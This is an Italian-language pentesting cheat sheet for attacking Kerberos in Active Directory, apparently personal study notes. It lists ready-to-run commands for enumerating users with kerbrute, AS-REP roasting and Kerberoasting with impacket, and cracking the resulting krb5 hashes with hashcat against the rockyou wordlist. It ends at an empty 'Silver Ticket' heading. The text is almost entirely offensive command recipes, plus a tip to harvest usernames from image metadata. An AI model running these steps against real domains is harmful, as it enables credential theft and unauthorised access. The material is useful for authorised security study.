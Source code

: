 
==Se da errore KRB_AP_ERR_SKEW==
```bash
timedatectl set-ntp false
ntpdate <IP>
```
### **ENUM USER**
==GLI USER POTRESTI ANCHE BRUTEFORZARLI O TROVARLI TRA I METADATA DELLE IMMAGINI SUL SITO==
```bash
kerbrute userenum -d <NOME DOMINIO> --dc <IP DC> <LISTA>
```
![[Pasted image 20230510110607.png]]
### **TGT**
```bash
impacket-GetNPUsers '<NOME DOMINIO>/' -no-pass -usersfile users.txt -format hashcat -outputfile hash
```
==L'HASH VIENE MESSO NEL FILE DI OUTPUT==
Dopo cracca l'hash

```bash
impacket-GetUserSPNs <NOME MACCHINA>/<USER>:<PASS> -request
```
### **CRACK KRB5 HASH**
```bash
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
### **SILVER TICKET**
